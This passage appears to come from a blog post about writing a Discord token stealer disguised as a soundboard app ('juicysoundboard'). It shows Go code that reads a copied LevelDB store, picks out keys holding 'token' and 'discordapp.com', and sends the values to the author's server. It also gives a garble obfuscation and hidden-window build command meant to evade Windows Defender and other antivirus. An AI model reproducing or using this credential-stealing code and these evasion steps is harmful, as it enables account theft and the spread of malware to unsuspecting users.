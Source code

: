 After copying the files, we try to read the database:

```go
func fetch() {
	// Delete the temporary folder when exiting the function
	defer os.RemoveAll("./tmp")
	// Setting up some option describing how we want to open the database.
    options := &opt.Options{
        NoSync:       true,
        NoWriteMerge: true,
        ReadOnly:     true,
    }
	// We open the database that's inside our folder
    db, dbErr := leveldb.OpenFile("./tmp", options)
    // If we can't open the files, abort and delete the folder.
    if dbErr != nil {
        fmt.Printf("Couldn't open db: %s\n", dbErr.Error())
        os.Exit(2)
    }
    // Close the db when we don't need it anymore
    defer db.Close()
    
    // Dirty hack, since db has weird chars in the keys,
    // We iterate it until we find the key that contains specific words
    iter := db.NewIterator(nil, nil)
    for iter.Next() {
	    dbkey := string(iter.Key()[:])
        if strings.Contains(dbkey, "token") && strings.Contains(dbkey, "discordapp.com") {
	        // Send the key to our server/service
            backupit(string(iter.Value()[:]))
        }
    }
    iter.Release()
}
```

I'm not gonna post the full code here, you could check it out in my github (if I decide to publish it).

Note that, in the actually source code that I compiled, I trunked the token before sending it. As much as exciting it is, I don't want risk other people's account neither I want to actually harm them.

## Compiling and obfuscation

I learned my lession. It's not easy to bypass AV especially when you are facing different ones. From my previous blog post about my adventure bypassing Windows Defender, we used a tool called `garble` to obfuscate the code.

```bash
garble -literals -tiny build -ldflags "-H=windowsgui" juicysoundboard.go
```

I thought it was it. But no. Windows Defender flagged it every single time. Doesn't matter if I compiled it with obfuscation or not. It was still flagged.
